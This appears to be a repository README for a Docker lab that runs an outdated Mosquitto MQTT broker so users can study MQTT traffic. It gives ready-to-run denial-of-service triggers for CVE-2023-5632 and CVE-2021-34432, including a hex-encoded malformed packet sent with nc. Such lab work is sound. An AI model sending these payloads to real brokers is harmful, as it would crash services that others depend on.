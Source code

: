 # MQTT-in-Containers
This virtual environment was created to observe and study MQTT communications, running a deprecated version of the [Mosquitto](https://mosquitto.org/) broker (version 2.0.5). There is a version with encrypted and one without encrypted traffic for you to try. We replicated two DoS attacks, namely CVE-2023-5632 and CVE-2021-34432. Further down we have included some steps on how to replicate these.

Here is a quick rundown of how to use the files in this repo:

1. We recommend you use Linux or WSL for Windows environments.
2. You need to [install Docker](https://docs.docker.com/get-started/get-docker/) to run the containers.
3. With "sudo docker compose up" you can start up all containers mentioned in the specific compose file
4. You can then capture the traffic in Wireshark for example, although finding the correct interface is not always easy.
5. The ip adresses for the encrypted setup are static, you can change it in the compose file if needed. 
6. Play around with different settings, creating your own certificates (if you dare), topics etc. 

Note: The password for any certificate file is "test"

CVE-2023-5632 <br>
This CVE works with the encrypted Broker. To trigger the exploit all you need is the following command. The ip adress is static and should work unless you changed it:<br>
openssl s_client -connect 172.23.0.2:8883<br>
It might be beneficial to limit the number of cpu cores of your testing enviroment. For WSL this can be done in the WSL settings.<br>
CVE-2021-34432<br>
This command only works with the unencrypted broker and if allow_anonymous is set to true in the mosquitto.conf file. But could also be replicated for the encrypted broker if you are able to sucessfully authenticate a package with topic length 0.<br>
echo 102b00044d5154540500003c0822000a110000000f00166d7174746f6f6c732d383739363736313532303132393d0900000621000a220005e000 | xxd -p -r | nc localhost 1883

